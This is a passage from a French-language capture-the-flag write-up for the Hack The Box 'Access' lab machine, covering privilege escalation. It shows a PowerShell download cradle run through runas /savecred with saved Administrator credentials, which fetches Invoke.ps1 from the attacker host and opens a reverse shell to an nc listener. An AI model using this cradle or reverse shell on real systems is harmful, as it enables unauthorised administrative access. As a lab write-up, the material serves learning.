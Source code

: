 ```bash


PS C:\Users\Public\Desktop> cat Z*
L?F?@ ??7???7???#?P/P?O? ?:i?+00?/C:\R1M?:Windows???:?▒M?:*wWindowsV1MV?System32???:?▒MV?*?System32▒X2P?:?
                                                                                                           runas.exe???:1??:1?*Yrunas.exe▒L-K??E?C:\Windows\System32\runas.exe#..\..\..\Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"'C:\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico%SystemDrive%\ZKTeco\ZKAccess3.5\img\AccessNET.ico?%?
                                                                                                                                                                                                                   ?wN?▒?]N?D.??Q???`?Xaccess?_???8{E?3
           O?j)?H???
                    )??[?_???8{E?3
                                  O?j)?H???
                                           )??[?        ??1SPS??XF?L8C???&?m?e*S-1-5-21-953262931-566350628-63446256-500
```
En fouillant dans les dossiers, on trouve un fichier ZKAccess.lnk qui semble executer un binaire "Access.exe" avec des droits élévé :
> Windows\System32\runas.exeC:\ZKTeco\ZKAccess3.5G/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe
On observe l'utilisation de runas, pour executer un fichier en tant qu'un utilisateur spécifique. En l'occurence, ici, il s'agit de l'Administrator (celui qui nous intéresse). Apparement les creds de l'administrateur sont enregistrés, et on peut executer n'importe quelle commande en tant qu'Administrator en utilisant l'argument /savecred.

On tente d'utiliser à nouveau notre script Invoke.ps1 pour ouvrir un reverseshell de type powershell en tant qu'Administrator, et ça fonctionne. On a changé le port dans le Invoke.ps1 bien sûr car le port est déjà utiliser sur la kali pour le powershell actuel.
```bash
PS C:\Users\security> runas /user:ACCESS\Administrator /savecred "powershell /C IEX(New-Object Net.WebClient).downloadString('http://10.10.16.9:8888/Invoke.ps1')"

--------KALI---------

┌──(kali㉿kali)-[~/htb/Access]
└─$ nc -lnvp 1339    
listening on [any] 1339 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.98] 49216
Windows PowerShell running as user Administrator on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
access\administrator
PS C:\Windows\system32> cd C:\Users\Administrator
PS C:\Users\Administrator> cd Desktop
PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-ar--         2/16/2025   6:02 PM         34 root.txt                          


PS C:\Users\Administrator\Desktop> cat root.txt
339f.....e901
```
